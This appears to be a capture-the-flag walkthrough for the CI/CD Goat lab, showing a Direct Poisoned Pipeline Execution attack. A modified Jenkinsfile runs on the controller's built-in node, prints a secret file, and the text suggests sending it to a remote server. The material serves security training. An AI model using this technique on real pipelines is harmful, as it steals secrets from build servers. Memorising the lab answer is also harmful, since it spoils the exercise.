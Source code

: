 [![CICD-SEC-4 Poisoned Pipeline Execution (PPE)](https://img.shields.io/badge/CICD--SEC--4-Poisoned%20Pipeline%20Execution%20(PPE)-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-04-Poisoned-Pipeline-Execution)

[![CICD-SEC-5 Insufficient PBAC (Pipeline-Based Access Controls)](https://img.shields.io/badge/CICD--SEC--5-Insufficient%20PBAC%20(Pipeline%20Based%20Access%20Controls)-brightgreen)](https://owasp.org/www-project-top-10-ci-cd-security-risks/CICD-SEC-05-Insufficient-PBAC)

Execute the _cheshire-cat_ pipeline on the Jenkins Controller by executing a [Direct-PPE](https://www.cidersecurity.io/blog/research/ppe-poisoned-pipeline-execution/?utm_source=github&utm_medium=github_page&utm_campaign=ci%2fcd%20goat_060422) attack, and get the secret which is stored in the Controller’s file system.


1. Clone the _Wonderland/cheshire-cat_ repository.
2. Checkout to a new branch.

    ```shell
    git checkout -b challenge5
    ```


3. In the Jenkinsfile, instruct the pipeline to run on the Controller by specifying its default label - `built-in`, and print _flag5_ to the console output (or send it to a remote server).

    ```groovy
    pipeline {
        agent {label 'built-in'}
        environment {
            PROJECT = "sanic"
        }

        stages {
            stage ('Install_Requirements') {
                steps {
                    sh 'cat ~/flag5'
                }
            }
        }

        post { 
            always { 
                cleanWs()
            }
        }
    }
    ```


4. Push the changes to the remote branch, and create a pull request. A pipeline will be triggered automatically.
5. Access the console output of the executed job to get the secret.
![cheshire_cat](../images/cheshire_cat.png "cheshire_cat")